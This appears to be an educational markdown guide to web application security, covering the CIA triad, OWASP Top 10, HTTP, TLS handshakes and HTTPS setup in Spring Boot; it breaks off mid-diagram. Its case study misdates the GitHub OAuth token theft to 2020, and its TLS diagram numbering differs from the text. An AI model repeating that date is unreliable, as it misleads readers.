




## 1\. Introduction to Web Application Security (WAS)

Web Application Security (WAS) is the practice of protecting websites, web applications, and web services from various cyber threats. In our highly connected world, where sensitive data is constantly exchanged online, robust WAS is not just an option—it's a necessity. Think of it like securing your home: you lock your doors, set up an alarm, and perhaps even have a dog. Similarly, WAS involves a layered approach to protect your digital assets.

### Definition and Importance of Web Application Security

**Definition:** Web Application Security refers to the measures and controls implemented to ensure the confidentiality, integrity, and availability of web applications and the data they process. It encompasses the protection of web servers, web services, APIs, databases, and the client-side code that renders the application in a user's browser.

**Importance:**

  * **Data Protection:** Web applications often handle sensitive user data (financial details, personal information, health records). Security breaches can lead to massive data leaks, identity theft, and severe financial and reputational damage.
  * **Business Continuity:** Cyberattacks can disrupt services, leading to downtime, loss of revenue, and customer dissatisfaction.
  * **Compliance and Regulations:** Many industries are subject to strict regulations (e.g., GDPR, HIPAA, PCI DSS) that mandate robust security controls. Non-compliance can result in hefty fines and legal repercussions.
  * **Trust and Reputation:** Users trust applications that protect their data. A single security incident can erode customer trust and severely damage a brand's reputation, which is incredibly difficult to rebuild.
  * **Intellectual Property Protection:** Web applications often contain proprietary code, algorithms, and business logic. Security protects this intellectual property from being stolen or reverse-engineered.

### Goals of WAS — The CIA Triad

The core goals of Web Application Security are encapsulated by the **CIA Triad**: **Confidentiality, Integrity, and Availability**. This triad serves as the guiding principle for almost all security measures. Imagine a secure vault:

  * **Confidentiality (🔐):** This is about keeping sensitive information secret and ensuring that only authorized individuals can access it.
      * **Definition:** Protecting information from unauthorized access and disclosure. It ensures that data is viewed only by those with the necessary permissions.
      * **Analogy:** Like a locked diary. Only you (or someone you've explicitly given the key to) can read its contents. If someone else reads it, confidentiality is breached.
      * **Web App Context:** Encrypting data in transit (HTTPS), proper access control mechanisms (authentication and authorization), secure storage of credentials, and preventing data leakage are all examples of maintaining confidentiality.
  * **Integrity (📊):** This refers to maintaining the accuracy, completeness, and consistency of data throughout its entire lifecycle.
      * **Definition:** Ensuring that information remains accurate, consistent, and unaltered by unauthorized parties. It protects data from being tampered with.
      * **Analogy:** Like a sealed envelope containing a contract. If the seal is broken or the contract is altered, its integrity is compromised.
      * **Web App Context:** Input validation, data validation on the server-side, using checksums or hashes to detect unauthorized modifications, and ensuring that database transactions are atomic are crucial for maintaining integrity.
  * **Availability (⚙️):** This means ensuring that authorized users can access the information and resources when and where they need them.
      * **Definition:** Guaranteeing that systems and data are accessible to authorized users when required, without undue delay or disruption.
      * **Analogy:** Like a 24/7 ATM. You expect to be able to withdraw cash whenever you need it. If it's constantly down, its availability is compromised.
      * **Web App Context:** Protection against Denial-of-Service (DoS) and Distributed Denial-of-Service (DDoS) attacks, robust server infrastructure, load balancing, proper error handling, and regular backups contribute to availability.

-----

**Diagram: The CIA Triad**



-----

### Common Threats and Attack Surfaces in Modern Web Apps

Modern web applications are complex and interconnected, offering numerous points of entry for attackers. Understanding these **attack surfaces** is crucial for defense.

**Attack Surfaces:** These are the points where an unauthorized user can try to enter or extract data from an environment.

  * **Login Forms:** The most obvious entry point. Vulnerabilities include brute-force attacks, credential stuffing, SQL injection (if input isn't properly handled), and broken authentication.
  * **APIs (Application Programming Interfaces):** As web apps move towards microservices and single-page applications (SPAs), APIs become critical attack vectors. Vulnerabilities include broken object-level authorization, excessive data exposure, injection flaws, and lack of rate limiting.
  * **Cookies:** Small pieces of data stored on the user's browser. Can be exploited for session hijacking (if not secured with HttpOnly, Secure, and SameSite flags), cross-site request forgery (CSRF), and information disclosure.
  * **URL Parameters:** Data passed directly in the URL query string (e.g., `?id=123`). Susceptible to parameter tampering, injection attacks (SQLi, XSS), and information disclosure.
  * **Frontend JavaScript:** Client-side code can be manipulated by attackers. Vulnerabilities include Cross-Site Scripting (XSS), DOM-based XSS, and client-side data manipulation if not properly validated on the server.
  * **File Upload Forms:** If not properly validated, attackers can upload malicious files (e.g., web shells) that allow them to execute arbitrary code on the server.
  * **Third-Party Libraries and Dependencies:** Modern applications rely heavily on external libraries. Vulnerabilities in these dependencies can introduce critical flaws into your application.

**Common Threats (OWASP Top 10 - a frequently updated list of the most critical web application security risks):**

  * **A01:2021-Broken Access Control:** Users are able to act outside of their intended permissions (e.g., a regular user accessing admin functions).
  * **A02:2021-Cryptographic Failures:** Sensitive data is exposed due to weak cryptographic practices or lack of encryption.
  * **A03:2021-Injection:** Untrusted data is sent to an interpreter as part of a command or query (e.g., SQL Injection, NoSQL Injection, OS Command Injection).
  * **A04:2021-Insecure Design:** Lack of or ineffective control design, often stemming from insufficient threat modeling.
  * **A05:2021-Security Misconfiguration:** Insecure default configurations, incomplete configurations, open cloud storage, etc.
  * **A06:2021-Vulnerable and Outdated Components:** Using libraries or frameworks with known vulnerabilities.
  * **A07:2021-Identification and Authentication Failures:** Flaws related to user authentication, allowing attackers to compromise user identities.
  * **A08:2021-Software and Data Integrity Failures:** Issues related to code and infrastructure integrity, especially those involving CI/CD pipelines.
  * **A09:2021-Security Logging and Monitoring Failures:** Insufficient logging and monitoring, making it difficult to detect, escalate, and recover from breaches.
  * **A10:2021-Server-Side Request Forgery (SSRF):** A web application fetches a remote resource without validating the user-supplied URL, allowing an attacker to coerce the application to send a crafted request to an unintended destination.

-----

**Diagram: Common Attack Surfaces**



-----

**Real-world case studies:**

  * **Facebook Data Leak (2018/2019):** Multiple incidents where user data (like phone numbers, IDs, and public profiles) were scraped or exposed due to API vulnerabilities or misconfigurations. This highlighted issues with excessive data exposure and insufficient access controls, leading to massive privacy concerns and regulatory scrutiny.
  * **GitHub Hijacking (2020):** Attackers exploited stolen OAuth user tokens from third-party integrators (Heroku, Travis CI) to gain unauthorized access to private repositories and user data on GitHub. This showcased the risks associated with third-party integrations and the importance of monitoring token usage and revoking compromised tokens promptly.
  * **Equifax Data Breach (2017):** A massive breach impacting over 147 million consumers, primarily due to a vulnerability in an unpatched Apache Struts component. This is a classic example of **Vulnerable and Outdated Components (A06)** and the critical need for timely patching and dependency management.

### Integration of Secure Software Development Lifecycle (SSDLC)

Security should not be an afterthought; it must be integrated into every phase of the Software Development Lifecycle (SDLC). This is the essence of the **Secure Software Development Lifecycle (SSDLC)**.

**Phases of SDLC with security touchpoints:**

1.  **Requirements Gathering / Planning:**
      * **Security Touchpoint:** Define security requirements explicitly. Identify critical assets and data. Conduct initial **threat modeling** to understand potential risks early on. "Security by Design" starts here.
2.  **Design:**
      * **Security Touchpoint:** Integrate security into the architecture. Design secure authentication and authorization mechanisms. Apply **Secure by Design** principles, ensuring that security is a core part of the system's foundation. Conduct architectural risk analysis and create security design patterns.
3.  **Implementation / Coding:**
      * **Security Touchpoint:** Follow secure coding guidelines (e.g., OWASP Top 10 prevention cheat sheets). Use secure frameworks and libraries. Perform **static application security testing (SAST)** to identify vulnerabilities in the code. This is where "Shift Left" comes into play, finding and fixing issues early.
4.  **Testing:**
      * **Security Touchpoint:** Conduct various security tests:
          * **Dynamic Application Security Testing (DAST):** Test the running application for vulnerabilities (e.g., using OWASP ZAP).
          * **Penetration Testing (Pen Testing):** Simulate real-world attacks.
          * **Vulnerability Scanning:** Automated checks for known vulnerabilities.
          * **Manual Security Review:** Expert analysis of code and configuration.
5.  **Deployment:**
      * **Security Touchpoint:** Secure deployment environments. Configure servers and applications securely. Ensure proper access controls to production systems. Automate security checks in CI/CD pipelines.
6.  **Maintenance / Monitoring:**
      * **Security Touchpoint:** Continuously monitor for security incidents. Implement robust logging and alerting. Regularly patch and update systems and dependencies. Conduct periodic security reviews and re-assessments. Respond to incidents promptly.

-----

**Diagram: Secure Software Development Lifecycle (SSDLC)**



-----

**Concepts:**

  * **Security by Design:** A fundamental principle that advocates for building security into the very fabric of the application from the initial design phase, rather than trying to bolt it on later. It means anticipating threats and designing countermeasures proactively.
      * **Analogy:** Building a house with a strong foundation and reinforced walls from the start, rather than trying to add them after the house is built and occupied.
  * **Shift Left:** The practice of moving security activities and testing earlier in the SDLC. The idea is that the earlier you find and fix vulnerabilities, the cheaper and easier it is to remediate them.
      * **Analogy:** Catching a leak in a pipe before the house is flooded, rather than after. It's much less costly and disruptive.
  * **Threat Modeling:** A structured process for identifying potential threats, vulnerabilities, and attacks that could compromise an application or system. It involves understanding the application's components, data flows, and potential entry points.
      * **Analogy:** A general planning a battle. They analyze the terrain, identify potential enemy strongholds, and anticipate attack strategies to develop a defense plan.
      * **Common Threat Modeling Frameworks:** STRIDE (Spoofing, Tampering, Repudiation, Information Disclosure, Denial of Service, Elevation of Privilege) and DREAD (Damage potential, Reproducibility, Exploitability, Affected users, Discoverability).

-----

## 2\. HTTP / HTTPS and TLS

Understanding how web communication works is foundational to web security. HTTP (Hypertext Transfer Protocol) is the backbone, and HTTPS (HTTP Secure) is its secure counterpart, relying on TLS.

### Understand the HTTP request/response cycle

HTTP is a stateless, application-layer protocol used for transmitting hypermedia documents, such as HTML. It works on a client-server model, where the client (usually a web browser) sends a request to a server, and the server sends back a response.

**HTTP Request/Response Cycle:**

1.  **Client initiates a connection:** The browser opens a TCP connection to the server on port 80 (for HTTP).
2.  **Client sends an HTTP Request:** The browser sends a request message.
3.  **Server processes the Request:** The server receives the request, processes it, and retrieves/generates the requested resource.
4.  **Server sends an HTTP Response:** The server sends a response message back to the client.
5.  **Client processes the Response:** The browser receives the response, parses it, and renders the content.
6.  **Connection closes:** The connection might be closed after the response, or kept alive for subsequent requests (HTTP/1.1 persistent connections).

-----

**Diagram: HTTP Request/Response Cycle**



-----

**Components of an HTTP Message:**

  * **HTTP Request:**

      * **Request Line:** `Method Request-URI HTTP-Version` (e.g., `GET /index.html HTTP/1.1`)
      * **Headers:** Key-value pairs providing additional information about the request.
          * `Host: example.com` (Target server)
          * `User-Agent: Mozilla/5.0...` (Client software info)
          * `Accept: text/html...` (Content types the client can handle)
          * `Cookie: JSESSIONID=...` (Session information)
          * `Content-Type: application/json` (For POST/PUT, indicates body type)
          * `Content-Length: 123` (Size of the request body)
          * `Authorization: Bearer <token>` (Authentication credentials)
      * **Blank Line:** Separates headers from the body.
      * **Message Body (Optional):** Contains data for methods like POST or PUT (e.g., form data, JSON payload).

  * **HTTP Response:**

      * **Status Line:** `HTTP-Version Status-Code Reason-Phrase` (e.g., `HTTP/1.1 200 OK`)
      * **Headers:** Key-value pairs about the response.
          * `Content-Type: text/html` (Type of content returned)
          * `Content-Length: 456` (Size of the response body)
          * `Set-Cookie: sessionId=abc; HttpOnly; Secure` (Sets a cookie in the client)
          * `Cache-Control: no-cache` (Caching directives)
          * `Server: Apache/2.4.41` (Server software info)
      * **Blank Line:** Separates headers from the body.
      * **Message Body:** The actual resource (e.g., HTML, JSON, image).

**HTTP Methods:** Verbs indicating the desired action to be performed on the identified resource.

  * **GET:** Retrieves data. Should be idempotent (multiple identical requests have the same effect). Should not have side effects.
  * **POST:** Submits data to be processed to a specified resource. Often causes a change in state or side effects on the server. Not idempotent.
  * **PUT:** Creates or replaces a resource with the request payload. Idempotent.
  * **DELETE:** Deletes the specified resource. Idempotent.
  * **PATCH:** Partially modifies a resource. Not necessarily idempotent.
  * **HEAD:** Same as GET, but only returns headers, no body.
  * **OPTIONS:** Describes the communication options for the target resource.

**HTTP Response Codes:** Three-digit numbers indicating the outcome of the request.

  * **1xx (Informational):** Request received, continuing process.
  * **2xx (Success):** The action was successfully received, understood, and accepted.
      * `200 OK`: Standard success for GET/PUT.
      * `201 Created`: Resource successfully created (typically POST).
      * `204 No Content`: Request processed, no content to return.
  * **3xx (Redirection):** Further action needs to be taken to complete the request.
      * `301 Moved Permanently`: Resource moved permanently.
      * `302 Found`: Resource temporarily moved.
  * **4xx (Client Error):** The request contains bad syntax or cannot be fulfilled.
      * `400 Bad Request`: Server cannot understand the request.
      * `401 Unauthorized`: Authentication required or failed.
      * `403 Forbidden`: Server understood, but refuses to authorize.
      * `404 Not Found`: Resource not found.
      * `405 Method Not Allowed`: Method not supported for the resource.
  * **5xx (Server Error):** The server failed to fulfill an apparently valid request.
      * `500 Internal Server Error`: Generic server error.
      * `502 Bad Gateway`: Server acting as gateway received an invalid response.
      * `503 Service Unavailable`: Server temporarily overloaded or down.

**Common Vulnerabilities related to HTTP:**

  * **Header Injection:** Attackers inject malicious headers into HTTP requests or responses, potentially leading to cross-site scripting (XSS), cache poisoning, or session fixation.
  * **Parameter Tampering:** Attackers modify parameters in the URL query string or POST body to manipulate application logic, bypass authorization, or access unauthorized data (e.g., changing `price=100` to `price=10`).
  * **Insecure Direct Object References (IDOR):** The application exposes an internal implementation object (like a file, database record, or directory) through a parameter, allowing attackers to manipulate the parameter to access unauthorized resources (e.g., `user_id=123` changed to `user_id=124`).
  * **HTTP Verb Tampering:** If an application only secures specific HTTP methods (e.g., POST) for sensitive actions, an attacker might try to use an unsecured method (e.g., GET or PUT) to bypass security controls.

### HTTPS: Why it's critical for confidentiality and trust

**HTTPS (Hypertext Transfer Protocol Secure)** is the secure version of HTTP. It uses **SSL (Secure Sockets Layer)** or its successor, **TLS (Transport Layer Security)**, to encrypt communication between the client and the server.

**Why it's critical:**

  * **Confidentiality:** Encrypts data in transit, preventing eavesdropping. Anyone intercepting the communication will only see scrambled, unreadable data. This protects sensitive information like login credentials, credit card numbers, and personal data.
  * **Integrity:** Ensures data has not been tampered with during transit. TLS includes mechanisms to detect any alterations, guaranteeing that what the server sent is what the client received.
  * **Authentication (Trust):** Verifies the identity of the server (and optionally the client) through digital certificates. When you visit an HTTPS website, your browser checks the server's certificate to ensure you are connecting to the legitimate site, not a malicious imposter (Man-in-the-Middle attack).
  * **SEO Benefits:** Search engines like Google prioritize HTTPS websites, giving them a slight ranking boost.
  * **Browser Warnings:** Modern browsers display "Not Secure" warnings for HTTP-only sites, deterring users. Many new browser features (e.g., Geolocation, Service Workers) also require HTTPS.

**Breakdown of SSL/TLS Certificate and Browser Padlock:**

When you visit an HTTPS site, you'll typically see a **padlock icon** in your browser's address bar. Clicking on it provides details about the site's SSL/TLS certificate.

  * **SSL/TLS Certificate:** A digital certificate that binds a public key to an organization's identity. It's issued by a trusted third party called a **Certificate Authority (CA)**.

      * **What it contains:**
          * **Public Key:** Used for encrypting data sent to the server.
          * **Domain Name:** The domain(s) the certificate is issued for (e.g., `example.com`).
          * **Organization Information:** Details about the owner of the certificate.
          * **Issuer Information:** Details about the Certificate Authority that issued the certificate.
          * **Validity Period:** Dates for which the certificate is valid.
          * **Digital Signature:** A cryptographic signature by the CA, verifying the certificate's authenticity.
      * **Purpose:** The browser uses the CA's public key (which is pre-installed in the browser's trust store) to verify the CA's signature on the server's certificate. If the signature is valid, the browser trusts that the server is who it claims to be.

  * **Browser Padlock:**

      * A closed padlock indicates a secure connection (HTTPS).
      * Clicking it typically shows:
          * "Connection is secure"
          * Certificate details (issuer, validity, common name)
          * Option to view the full certificate chain.
      * Lack of a padlock or a broken/red padlock signifies an insecure or potentially compromised connection.

### TLS (Transport Layer Security)

TLS is the cryptographic protocol that provides secure communication over a computer network. It evolved from SSL and is now the industry standard.

**Full explanation of the TLS handshake, including asymmetric → symmetric key exchange:**

The TLS handshake is a complex process that establishes a secure, encrypted connection between a client and a server. It involves a clever combination of asymmetric and symmetric cryptography.

**Steps of the TLS Handshake (Simplified):**

1.  **Client Hello:**

      * The client sends a "Client Hello" message to the server.
      * It includes:
          * The highest TLS protocol version it supports (e.g., TLS 1.2, TLS 1.3).
          * A random number (Client Random).
          * A list of supported cipher suites (combinations of algorithms for key exchange, encryption, and hashing).
          * Compression methods.
          * Any extensions.

2.  **Server Hello:**

      * The server receives the Client Hello and sends back a "Server Hello."
      * It includes:
          * The chosen TLS protocol version (the highest common version).
          * A random number (Server Random).
          * The chosen cipher suite from the client's list.
          * Compression method.
          * Any extensions.

3.  **Server Sends Certificate:**

      * The server sends its digital SSL/TLS certificate to the client. This certificate contains the server's public key.

4.  **Server Key Exchange (Optional, depending on cipher suite):**

      * If using certain key exchange algorithms (e.g., DHE, ECDHE for perfect forward secrecy), the server might send additional key exchange parameters.

5.  **Server Hello Done:**

      * The server indicates that it's finished with its initial handshake messages.

6.  **Client Verifies Certificate:**

      * The client receives the server's certificate.
      * It verifies the certificate's authenticity by checking its signature against trusted CAs in its local trust store.
      * It also checks the validity period, domain name, and revocation status. If anything is amiss, the handshake fails, and the user gets a security warning.

7.  **Client Key Exchange (Pre-Master Secret):**

      * The client generates a random **pre-master secret**.
      * It encrypts this pre-master secret using the **server's public key** (obtained from the certificate).
      * The client sends the encrypted pre-master secret to the server. This is the crucial **asymmetric key exchange** step.

8.  **Server Decrypts Pre-Master Secret:**

      * The server receives the encrypted pre-master secret.
      * It decrypts it using its **private key**.

9.  **Generate Master Secret & Session Keys:**

      * Both the client and the server now have the **Client Random, Server Random, and Pre-Master Secret**.
      * Using these three components, both parties independently compute the same **Master Secret**.
      * From the Master Secret, they derive a set of **symmetric session keys** (one for encryption, one for decryption for each direction). This is the transition to **symmetric encryption**.

10. **Change Cipher Spec (Client):**

      * The client sends a "Change Cipher Spec" message, indicating that all subsequent messages will be encrypted using the newly negotiated symmetric session keys.

11. **Finished (Client):**

      * The client sends a "Finished" message, which is a hash of all handshake messages exchanged so far, encrypted with the new symmetric key. This acts as a verification that the handshake was successful and not tampered with.

12. **Change Cipher Spec (Server):**

      * The server sends its "Change Cipher Spec" message.

13. **Finished (Server):**

      * The server sends its encrypted "Finished" message.

14. **Encrypted Application Data:**

      * At this point, the TLS handshake is complete. All subsequent application data (HTTP requests and responses) are encrypted and decrypted using the established symmetric session keys.

-----

**Diagram: TLS Handshake**

```mermaid
sequenceDiagram
    participant C as Client
    participant S as Server

    C->>S: 1. Client Hello (TLS versions, cipher suites, Client Random)
    S->>C: 2. Server Hello (Chosen TLS version, cipher suite, Server Random)
    S->>C: 3. Server Certificate (contains Server's Public Key)
    S->>C: 4. Server Key Exchange (if applicable)
    S->>C: 5. Server Hello Done

    C->>C: 6. Client verifies Server Certificate
    C->>S: 7. Client Key Exchange (Pre-Master Secret encrypted with Server's Public Key)

    S->>S: 8. Server decrypts Pre-Master Secret with its Private Key
    C->>C: 9. Client computes Master Secret & Session Keys
    S->>S: 10. Server computes Master Secret & Session Keys

    C->>S: 11. Change Cipher Spec (Client ready for encrypted communication)
    C->>S: 12. Finished (Encrypted hash of handshake messages)

    S->>C: 13. Change Cipher Spec (Server ready for encrypted communication)
    S->>C: 14. Finished (Encrypted hash of handshake messages)

    C<->>S: 15. Encrypted Application Data (HTTP)
```

-----

**Importance of Certificate Chains, CA Trust Model:**

  * **Certificate Chain:** A certificate chain is a list of certificates, starting with the end-entity certificate (your server's certificate) and extending up to a trusted Root Certificate Authority (CA) certificate.
      * `End-entity Certificate` (Your domain)
      * `Intermediate CA Certificate(s)` (Issued by the Root CA to delegate authority)
      * `Root CA Certificate` (Self-signed, trusted by browsers/OS)
      * When your browser verifies a server's certificate, it needs to verify the entire chain, from your server's certificate all the way up to a root certificate it already trusts.
  * **CA Trust Model:** The foundation of trust on the internet.
      * Browsers and operating systems come with a pre-installed list of trusted **Root Certificate Authorities (CAs)**. These CAs are highly vetted and secure organizations.
      * Root CAs issue **Intermediate CA certificates** to other CAs, delegating their trust. This hierarchy makes the system scalable and secure.
      * When your browser sees a certificate signed by an Intermediate CA, it then checks if that Intermediate CA's certificate is signed by a Root CA it trusts. If the entire chain is valid and leads to a trusted Root CA, the browser deems the server's certificate trustworthy.
      * This model means you don't need to manually trust every website; you only need to trust a limited number of CAs.

### HTTPS in Java Spring Boot apps using Let’s Encrypt or custom TLS certs

Implementing HTTPS in a Spring Boot application involves configuring your server (often embedded Tomcat or Jetty) to use an SSL/TLS certificate.

**Using a Custom TLS Certificate (e.g., purchased from a commercial CA):**

1.  **Obtain Certificate:** You'll typically get a `.crt` file (your server certificate), a `.key` file (your private key), and potentially intermediate CA certificates.
2.  **Create a Keystore:** Java applications typically use a **Java KeyStore (JKS)** or **PKCS12** format to store certificates and private keys. You'll need to import your certificate and private key into a keystore.
      * **Example using `keytool` (for JKS):**
        ```bash
        # If you have a private key and certificate in PEM format:
        # 1. Convert PEM to PKCS12
        openssl pkcs12 -export -in your_certificate.crt -inkey your_private.key -name "your_alias" -out keystore.p12

        # 2. Convert PKCS12 to JKS (optional, Spring Boot prefers PKCS12)
        keytool -importkeystore -srckeystore keystore.p12 -srcstoretype PKCS12 -destkeystore keystore.jks -deststoretype JKS
        ```
      * **Note:** PKCS12 (`.p12` or `.pfx`) is now the recommended format for Spring Boot.
3.  **Configure `application.properties` (Spring Boot):**
    ```properties
    server.ssl.enabled=true
    server.ssl.key-store=classpath:keystore.p12 # or /path/to/keystore.p12
    server.ssl.key-store-type=PKCS12
    server.ssl.key-store-password=your_keystore_password
    server.ssl.key-alias=your_alias # The alias you used when importing
    server.port=8443 # Default HTTPS port
    ```

**Using Let's Encrypt (Free, Automated Certificates):**

Let's Encrypt provides free, automated, and open certificates. It's widely used but typically requires a domain name and a way to prove ownership.

1.  **Prerequisites:**
      * A registered domain name (e.g., `your-app.com`).
      * A server with port 80/443 accessible from the internet.
2.  **Certbot:** The most common client for Let's Encrypt.
      * Install Certbot on your server (e.g., Ubuntu: `sudo apt install certbot`).
      * Run Certbot: `sudo certbot certonly --standalone -d your-app.com` (for standalone mode, Certbot temporarily runs a web server on port 80).
      * Certbot will place the certificate files (private key, full chain) in `/etc/letsencrypt/live/your-app.com/`.
3.  **Integrate with Spring Boot (similar to custom certs):**
      * You'll need to convert the PEM files from Let's Encrypt to a PKCS12 keystore.
      * **Example conversion using OpenSSL:**
        ```bash
        sudo openssl pkcs12 -export -in /etc/letsencrypt/live/your-app.com/fullchain.pem \
                           -inkey /etc/letsencrypt/live/your-app.com/privkey.pem \
                           -name "letsencrypt_alias" \
                           -out /path/to/your_app_dir/keystore.p12 \
                           -passout pass:your_keystore_password
        ```
      * **Configure `application.properties`:**
        ```properties
        server.ssl.enabled=true
        server.ssl.key-store=file:/path/to/your_app_dir/keystore.p12
        server.ssl.key-store-type=PKCS12
        server.ssl.key-store-password=your_keystore_password
        server.ssl.key-alias=letsencrypt_alias
        server.port=8443
        ```
4.  **Automate Renewal:** Let's Encrypt certificates are short-lived (90 days). Certbot has a built-in renewal process (`sudo certbot renew --dry-run`). You'll need to ensure your application can pick up the new certificate after renewal (e.g., by restarting the Spring Boot app or having a mechanism for hot-reloading). In production, you'd often use a reverse proxy like NGINX or Apache to handle TLS termination, and then proxy requests to your Spring Boot app over HTTP internally. This simplifies certificate management.

-----

## 3\. Web Application Architecture

The architecture of a web application significantly impacts its security posture. Understanding the components and their interactions is key.

### Client-Server Model

This is the fundamental model for almost all web applications.

  * **Client:** Typically a web browser (e.g., Chrome, Firefox) running on a user's device. It sends requests to the server, displays the user interface, and handles client-side logic (HTML, CSS, JavaScript).
  * **Server:** A powerful computer or cluster of computers that hosts the web application's backend logic, databases, and serves responses to client requests. It processes requests, interacts with databases, and generates dynamic content.

**How browsers interact with backend servers:**

1.  **Request Initiation:** User types a URL, clicks a link, or submits a form.
2.  **DNS Resolution:** Browser resolves the domain name to an IP address (e.g., `example.com` to `93.184.216.34`).
3.  **TCP Connection:** Browser establishes a TCP connection to the server's IP address on the appropriate port (80 for HTTP, 443 for HTTPS).
4.  **HTTP/HTTPS Request:** Browser sends an HTTP or HTTPS request for the desired resource.
5.  **Server Processing:** Server receives the request, processes it (e.g., retrieves data from a database, executes business logic), and generates a response.
6.  **HTTP/HTTPS Response:** Server sends the response back to the browser.
7.  **Rendering:** Browser receives the response (e.g., HTML, CSS, JavaScript), parses it, and renders the web page for the user.

-----

**Diagram: Client-Server Model**

```mermaid
graph TD
    A[Client (Browser)] --1. Request (HTTP/S)--> B(Internet)
    B --2. DNS Resolution & TCP Connection--> C[Web Server]
    C --3. Processes Request--> D[Application Server]
    D --4. Interacts with--> E[Database]
    E --5. Returns Data--> D
    D --6. Generates Response--> C
    C --7. Response (HTTP/S)--> B
    B --8. Renders Content--> A
```

-----

**Where security fits in between:**

Security measures are implemented at various layers within this model:

  * **Client-Side Security:** Input validation, output encoding (to prevent XSS), content security policy (CSP), secure storage of client-side data (e.g., `localStorage` vs. `sessionStorage` vs. secure cookies).
  * **Network Security:** HTTPS/TLS encryption to secure data in transit. Firewalls and intrusion detection/prevention systems (IDS/IPS).
  * **Server-Side Security:**
      * **Application Server:** Authentication, authorization, session management, input validation, output encoding, error handling, secure coding practices.
      * **Web Server:** SSL/TLS termination, access controls, DDoS mitigation.
      * **Database:** Access controls, encryption at rest, secure credentials, regular backups.
  * **API Security:** Authentication, authorization, rate limiting, input validation specific to API endpoints.

### Monolithic vs. Microservices

The choice of architectural style significantly impacts how security is implemented and managed.

  * **Monolithic Architecture:** A single, large, self-contained application where all components (UI, business logic, data access) are tightly coupled and deployed as a single unit.

      * **Security Characteristics:**
          * **Centralized Security:** Security logic (authentication, authorization) is often implemented in one place, making it easier to manage and audit initially.
          * **Single Point of Failure (Security-wise):** A vulnerability in one part of the monolith can potentially expose the entire application.
          * **Easier Attack Surface Mapping:** The attack surface is typically more contained and easier to define.
          * **Patching/Updates:** A security patch often requires redeploying the entire application, which can be slower.
          * **Resource Sharing:** Easier to implement common security features like shared session management.

  * **Microservices Architecture:** An application built as a collection of small, independent services, each running in its own process and communicating via lightweight mechanisms (often APIs).

      * **Security Characteristics:**
          * **Decentralized Security:** Each microservice might have its own security considerations. This can lead to inconsistencies if not managed properly.
          * **Increased Attack Surface:** More network endpoints (APIs) mean a larger attack surface.
          * **Granular Security Controls:** Security can be applied at a finer-grained level for each service.
          * **Complexity:** Managing authentication and authorization across many services requires sophisticated solutions (e.g., API Gateways, JWTs, OAuth2).
          * **Service-to-Service Communication:** Securing internal communication between microservices (e.g., mTLS).
          * **Independent Deployment:** Security patches can be applied to individual services without impacting the entire system.
          * **Visibility:** Tracing security events across multiple services can be challenging without proper logging and monitoring.

-----

**Diagram: Monolithic vs. Microservices Architecture**

```mermaid
graph TD
    subgraph Monolithic
        M1[UI Layer] --Calls--> M2[Business Logic]
